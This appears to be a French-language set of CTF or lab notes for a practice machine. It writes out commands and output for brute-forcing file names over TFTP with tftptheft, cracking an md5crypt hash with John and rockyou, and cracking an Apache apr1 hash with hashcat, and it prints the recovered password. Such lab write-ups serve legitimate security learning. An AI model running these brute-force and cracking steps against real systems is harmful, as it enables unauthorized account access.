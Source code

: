 ### Bruteforce des fichiers accessibles par tftp

- https://github.com/EnableSecurity/tftptheft

Le script a des pb avec les lignes vides.
Il faut nettoyer la première ligne de common.txt

```
# cd tftp/tftptheft-master
# cp /usr/share/wordlists/dirb/common.txt .
# ./thief.py -p 69 -f ./common.txt 10.10.10.21 -v
Test:   4% |||||                                                                        | ETA:  00:10:16

```

### John et rockyou 

```
# john  passwords --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:59 14.52% (ETA: 14:51:05) 0g/s 38292p/s 38292c/s 38292C/s 2902709..29022005
0g 0:00:02:18 36.13% (ETA: 14:50:41) 0g/s 38272p/s 38272c/s 38272C/s mufdyvr..mufctillidies
ihateseafood     (kalamari)
1g 0:00:03:16 DONE (2019-09-21 14:47) 0.005076g/s 37776p/s 37776c/s 37776C/s ihatesex!..ihateseabass
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
=>  ihateseafood     (kalamari)

On a le mot de passe du proxy

### Hashcat sous windows (non testé)

```
C:\hashcat-3.5.0> .\hashcat64.exe --help | findstr apr
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | HTTP, SMTP, LDAP Server

C:\hashcat-3.5.0> .\hashcat64.exe -m 1600 -a 0 -o crackedjoker .\jokerhash.txt .\rockyou.txt
hashcat (v3.5.0) starting...

...
Output Truncated
...

C:\hashcat-3.5.0> type .\crackedjoker
$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0:ihateseafood

So we have the password for the user kalamari as ihateseafood
```
